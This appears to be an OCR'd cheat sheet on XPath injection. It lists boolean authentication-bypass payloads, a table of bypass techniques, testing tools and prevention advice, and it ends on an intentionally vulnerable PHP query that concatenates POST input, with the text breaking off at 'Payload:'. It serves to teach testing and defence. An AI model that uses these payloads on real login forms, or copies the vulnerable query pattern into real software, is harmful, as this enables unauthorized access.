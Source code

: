 Inject XPath control characters:

', ", and, or, =, [, ]

Try boolean logic payloads to manipulate authentication:

' or '1'='1

admin' or '1'='1

' or 1=1 or ''='

Observe:

Login without credentials

Unexpected or sensitive data exposure

Errors that leak query details

🧪 Automated Tools
Burp Suite

OWASP ZAP (custom scripts)

Custom fuzzers

🎭 Bypass Types
Bypass Technique	Payload Example	Description
Boolean Logic	' or '1'='1	Always evaluates true
Comment Injection	' or '1'='1' and ''='	Closes quote and comments rest of query
Brute Force	user='admin' and password='[guess]'	Enumerate passwords
Unclosed Queries	admin' or '1	Breaks the query logic
Double Quotes	" or "1"="1	Alternate for differently quoted queries

🛡️ Prevention
Avoid dynamic XPath query construction

Use parameterized XPath APIs if available

Escape user inputs:

Replace or escape characters like ', ", <, >, &

Use XML Schema Validation (XSD):

Enforce strict input types and structure

Input validation and sanitization:

Whitelist expected formats (e.g., alphanumeric usernames)

Limit error feedback:

Do not expose XPath query errors to users

📌 Example
❌ Vulnerable XPath (e.g., in PHP)
php
Copy
Edit
$query = "//users/user[username/text()='" . $_POST['user'] . "' and password/text()='" . $_POST['pass'] . "']";
Payload:
